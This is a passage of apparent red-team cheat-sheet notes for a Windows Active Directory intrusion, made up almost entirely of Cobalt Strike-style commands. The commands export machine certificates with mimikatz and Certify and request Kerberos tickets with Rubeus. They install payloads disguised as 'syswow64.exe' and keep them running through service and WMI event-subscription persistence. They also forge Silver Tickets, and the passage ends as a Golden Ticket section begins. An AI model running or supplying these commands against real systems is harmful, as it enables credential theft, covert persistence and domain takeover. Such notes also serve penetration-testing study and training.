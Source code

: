`cat /mnt/c/Users/Attacker/Desktop/[cert].pfx | base64 -w 0`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /certificate:[base64] /password:mimikatz /enctype:aes256 /opsec /nowrap`
[[#Pass-the-Ticket]]
## Host Persistence (System)

`cd C:\Windows`
`upload C:\Payloads\local_x64.svc.exe`
`mv local_x64.svc.exe syswow64.exe`

`cd C:\Windows`
`upload C:\Payloads\smb_x64.svc.exe`
`mv smb_x64.svc.exe syswow64.exe`
#### Windows Services
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -n "SysWOW64" -c "C:\Windows\syswow64.exe" -m add`

Remove
`execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -n "SysWOW64" -m remove`
#### WMI Event Subscription
`powershell-import C:\Tools\PowerLurk.ps1`
`powerpick Register-MaliciousWmiEvent -EventName SysWOW64 -PermanentCommand "C:\Windows\syswow64.exe" -Trigger ProcessStart -ProcessName [process]`
`powerpick Register-MaliciousWmiEvent -EventName SysWOW64 -PermanentCommand "C:\Windows\syswow64.exe" -Trigger UserLogon -UserName *`

Remove
`powershell Get-WmiEvent -Name SysWOW64 | Remove-WmiObject`
#### Certificate
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates`→ check for "Certificate is used for client authentication!"
if no cert found: `execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:[ca] /template:Machine /machine`
`mimikatz !crypto::certificates /systemstore:local_machien /export`
`download [cert].pfx`

`cat /mnt/c/Users/Attacker/Desktop/[cert].pfx | base64 -w 0`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[machine]$ /certificate:[base64] /password:mimikatz /enctype:aes256 /opsec /nowrap`
[[#Pass-the-Ticket]]
## Domain Dominance
`powerpick Get-Domain`
`powerpick Get-DomainSID`
#### Silver Ticket
forge TGS for any user to any service on that machine
- requires machine hash

see [[#Service Tickets]]
`C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /aes256:[hash] /service:[service]/[host] /user:[any user] /domain:[domain] /sid:[domain sid] /nowrap`
[[#Pass-the-Ticket]]
#### Golden Ticket
forge TGT for any user to access any service on any machine
- requires krbtgt hash
